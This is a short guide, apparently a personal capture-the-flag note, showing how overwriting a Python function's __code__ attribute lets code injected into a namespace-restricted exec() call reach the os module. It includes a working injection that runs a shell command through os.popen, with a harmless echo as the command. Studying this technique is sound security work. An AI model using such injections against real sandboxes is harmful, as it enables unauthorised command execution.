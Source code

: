 *2022-05-15*

#guide 

> [!Abstract]
>The `__code__` attribute of a Python function can be overwritten, allowing us to possibly break out of a constrained namespace and use an elevated one.

---

We can view all the attributes of an object using `print(func.__dir__())`. We'll be able to see a `__code__` attribute.

```python
Python 3.10.4 (main, Mar 23 2022, 23:05:40) [GCC 11.2.0] on linux  
Type "help", "copyright", "credits" or "license" for more information.  
>>> print(print.__dir__())  
['__repr__', '__hash__', '__call__', '__getattribute__', '__lt__', '__le__', '__eq__', '__ne__', '__gt__', '__ge__', '__reduce__', '__module__', '__doc__', '__name__', '__qualname__', '__self__', '__text_signature__', '__new__',  
'__str__', '__setattr__', '__delattr__', '__init__', '__reduce_ex__', '__subclasshook__', '__init_subclass__', '__format__', '__sizeof__', '__dir__', '__class__']
```

We can overwrite this attribute with the code of another function or a lambda. Lambdas are generally easier when working with injections.

## Example
```python
def func1():
	print(1)

func1()

func1.__code__ = (lambda: print(2)).__code__

func1()
```

```
1
2
```

## Namespace Escalation
We can use this property to escalate to a namespace with more functions available. Consider the following `exec()` injection with a limited namespace.

> [!Note]
> Notice that the globals available to use in the `exec()` function have been limited. In this case, only `print()`` can be called.

#### Failed Exploit
```python
import os 

def new_print(x):
	print(f"new print {x}")

builtins = {
	"print": new_print
}  

injection = "print(os.popen('whoami').read())"

exec(f"{injection}", builtins)
```

```shell
Traceback (most recent call last):
  File "/home/james/htb/amidst-us/namespace.py", line 13, in <module>
    exec(f"{injection}", builtins)
  File "<string>", line 1, in <module>
NameError: name 'os' is not defined
```

We get the error that the `os` module is not defined, which make sense since it is not included in the restricted namespace of the `exec`.

Now, lets try the same code with a different injection. This time we're going to overwrite the `__code__` attribute of `print` with that of a custom lambda. We'll then run `print()`.

#### Working Exploit
```python
import os 

def new_print(x):
	print(f"new print {x}")

builtins = {
	"print": new_print
}  

injection = "print.__code__ = (lambda: print(os.popen('echo EXPLOITED!').read())).__code__; print()"

exec(f"{injection}", builtins)
```

```
EXPLOITED!
```

> [!Success]
> The `print` function's code is being overwritten with that of our own lambda, but instead of using the constrained namespace of the `exec`, it's using the namespace of `new_print` which has access to the `os` module and all the default Python built-ins. 

With this change, `print(os.popen('echo EXPLOITED!').read())` is running as if it's not in the constrained namespace.

---

# References
* https://stackoverflow.com/questions/6886493/get-all-object-attributes-in-python

---